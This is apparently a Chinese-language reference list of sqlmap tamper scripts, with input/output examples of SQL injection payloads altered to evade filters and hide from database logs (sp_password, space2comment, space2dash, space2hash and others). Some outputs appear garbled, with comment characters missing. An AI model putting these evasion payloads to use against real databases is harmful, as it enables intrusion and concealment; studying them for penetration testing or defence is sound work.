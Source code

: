 ##### sp_password.py 语句结尾添加“sp_password”迷惑数据库日志（很。。。）

  Example: www.2cto.com
* Input: 1 AND 9227=9227--
* Output: 1 AND 9227=9227--sp_password
  Requirement:
* MSSQL
  
##### space2comment.py 以区块注释替换空格

  Example:
* Input: SELECT id FROM users
* Output: SELECTidFROMusers
  
##### space2dash.py 以单行注释“--”和随机的新行替换空格

  Example:
* Input: 1 AND 9227=9227
* Output: 1--PTTmJopxdWJ AND--cWfcVRPV 9227=9227
  Requirement:
* MSSQL
* SQLite
  
##### space2hash.py 以单行注释“#”和由随机字符组成的新行替换空格

  Example:
* Input: 1 AND 9227=9227
* Output: 1#PTTmJopxdWJ AND#cWfcVRPV 9227=9227
  Requirement:
* MySQL
  
##### space2morehash.py 没看出来和上面那个有什么区别。。

  Requirement:
* MySQL >= 5.1.13
  
##### space2mssqlblank.py 以随机空白字符替换空格

  Example:
* Input: SELECT id FROM users
* Output: SELECTidFROMusers
  Requirement:
* Microsoft SQL Server
  
##### space2mssqlhash.py 以单行注释“#”和新行替换空格

  Example:
* Input: 1 AND 9227=9227
* Output: 1# 9227=9227
  Requirement:
* MSSQL
* MySQL
  
##### space2mysqlblank.py 以随机空白字符替换空格
